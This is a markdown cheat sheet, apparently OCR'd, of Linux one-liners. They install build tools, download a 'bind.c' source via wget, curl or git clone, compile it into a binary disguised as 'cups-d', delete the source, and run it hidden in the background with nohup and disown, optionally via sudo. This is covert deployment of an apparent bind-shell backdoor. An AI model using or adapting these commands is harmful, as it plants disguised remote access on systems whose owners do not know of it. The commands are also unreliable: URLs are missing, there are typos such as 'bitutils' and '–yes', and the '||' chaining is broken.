 # One-liners:
## BIND / WGET / GCC
### SETUP(as root):
```console
apt-get install --yes wget gcc binutils || yum -y install wget gcc binutils || zypper -l --no-confirm install wget gcc binutils || pacman --noconfirm -Sy wget gcc binutils
```
###SETUP(via sudo):
```console
sudo apt-get install --yes wget gcc binutils || sudo yum -y install wget gcc bitutils || sudo zypper -l --no-confirm install wget gcc binutils || sudo pacman --noconfirm -Sy wget gcc binutils
```
###RUN(current user):
```console
wget -O bind.c && gcc ./bind.c -o ./cups-d ; rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
###RUN(via sudo):
```console
wget -O bind.c && gcc ./bind.c -o ./cups-d ; rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

##BIND / Curl / GCC
###SETUP(as root):
```console
apt-get install --yes curl gcc binutils || yum -y install curl gcc binutils || zypper -l --no-confirm install curl gcc binutils || pacman --noconfirm -Sy curl gcc binutils
```
###SETUP(via sudo):
```console
sudo apt-get install --yes curl gcc binutils || sudo yum -y install curl gcc binutils || sudo zypper -l --no-confirm install curl gcc binutils || sudo pacman --noconfirm -Sy curl gcc binutils
```
###RUN(current user):
```console
curl -o bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
###RUN(via sudo):
```console
curl -o bind.c && gcc ./bind.c -o ./cups-d || rm -f ./bind.c 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```
##BIND / Git / GCC
###SETUP(as root):
```console
apt-get install –yes git gcc binutils || yum install git gcc binutils || zypper -l --no-confirm install git gcc binutils || pacman --noconfirm -Sy git gcc binutils
```
###SETUP(via sudo):
```console
sudo apt-get install –yes git gcc binutils || sudo yum install git gcc binutils || sudo zypper -l --no-confirm install git gcc binutils || sudo pacman --noconfirm -Sy git gcc binutils
```
###RUN(current user):
```console
git clone URL && cp ./folder/bind.c ./bind.c || rm -rf ./folder 2>/dev/null || nohup ./cups-d & || disown 2>/dev/null
```
###RUN(via sudo):
```console
git clone URL && cp ./folder/bind.c ./bind.c || rm -rf ./folder 2>/dev/null || sudo nohup sudo ./cups-d & || disown 2>/dev/null
```

##BIND-CRON / WGet / GCC
###SETUP(as root):
```console
apt-get install –yes wget gcc binutils cron
```
###SETUP(via sudo):
```console
Sudo apt-get install –yes wget gcc binutils cron
```
